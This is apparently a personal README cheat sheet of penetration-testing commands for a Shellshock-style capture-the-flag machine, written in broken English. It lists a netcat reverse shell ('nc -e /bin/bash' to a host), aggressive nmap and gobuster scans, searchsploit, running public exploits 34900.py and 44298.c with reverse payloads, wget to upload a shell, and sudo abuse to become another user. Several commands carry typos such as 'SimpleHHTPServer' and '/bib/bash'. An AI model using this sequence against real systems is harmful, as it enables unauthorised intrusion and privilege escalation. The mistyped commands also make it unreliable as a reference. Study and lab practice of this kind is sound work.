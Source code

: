 # don-t-forget
For us to easily remember the things we forgot
netcad 
nc -nvlp port for listening ports wich is we wanna use that
next type id next ls or pwd
nc -e /bin/bash host and port when we enter system 
nmap:
nmap -sS -A -v -p --min-rate 99999 host 

when the site open u must use /robots.txt
/cgi-bin/
/cgi-bin/user.sh

gobuster:
gobuster dir -u http://host -w /usr/share/worldlists/dirbuster/directory-list-2.3-medium.txt -x .ph,.txt,.conf,.doc,.sh

nikto -h host

searcsploit (shell shock) -m
vim (payload extension)

if u have a payload for ex
python 34900.py rhost=ip(host) lhost=ip(host) payload=reverse(or bind)

we can compile exploit wirth gcc
gcc -o exploit 44298.c 
and ls 


python -m SimpleHHTPServer 80

chmod +x exploit for giving a permission

msfconsole
set rpath /cgi-bin/user.sh

sudo -l say to us u can run this commands

wget for upload shell

sudo -u scriptmanager /bib/bash this means u get a scriptmanager rank

next time ls -la shows to us permission  
